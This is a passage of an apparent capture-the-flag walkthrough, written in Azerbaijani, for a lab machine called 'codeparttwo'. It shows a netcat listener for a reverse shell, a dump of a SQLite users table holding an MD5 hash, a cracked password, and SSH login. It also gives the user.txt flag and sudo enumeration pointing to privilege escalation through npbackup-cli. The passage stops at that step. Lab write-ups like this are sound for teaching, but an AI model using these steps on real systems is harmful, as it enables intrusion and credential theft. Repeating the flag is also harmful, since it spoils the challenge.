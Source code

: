 ```bash
nc -lvnp 4444
```

* Payload icra edildikdən sonra target host-dan interaktiv shell əldə edildi. Shell sessiyası tətbiq istifadəçisi (`app` və ya `marco` ola bilər) kontekstində idi — əldə edilən ilkin shell `app` user olaraq başladı və sonra `marco` hesabına keçid edildi (aşağıdakı addımlarda).

---

## 5. Yerli istifadəçi (`marco`) hesabı və `user.txt`

* `/home` direktoriyasına baxıldı:

```bash
cd /home
ls -la
```

* Backend tətbiqin SQLite database-i (`users.db`) tapıldı — içərisində `user` cədvəlində `marco` istifadəçisinin MD5-lə hashlənmiş şifrəsi vardı.
* `sqlite3` ilə DB açılıb istifadəçi məlumatları çıxarıldı:

```sql
sqlite3 users.db
.tables
.schema user
SELECT * from user;
```

* Hash offline olaraq cracking üçün (məs. `john`/`hashcat`) istifadə oluna bilər. (Bu sənəddə cracking prosesinin detallarını göstərmirsiniz; əldə olunan açıq şifrə qeyd edildi.)
* Cracked (tapılmış) parol: `sweetangelbabylove`
* Bu parol ilə SSH daxil olundu:

```bash
ssh marco@10.10.11.82
# password: sweetangelbabylove
```

* `marco` istifadəçisinin `user.txt` faylının məzmunu (submit üçün):
  `07bd85e55c7ff5acdc0af3451a161562`

---

## 6. `sudo` imkanlarının yoxlanması və `npbackup-cli`-dən yüksəlmə (privilege escalation)

* `sudo -l` ilə `marco` istifadəçisinin hansı `sudo` imkanları olduğu yoxlanıldı:

```bash
sudo -l
```

Nəticə nümunəsi:

```
User marco may run the following commands on codeparttwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```
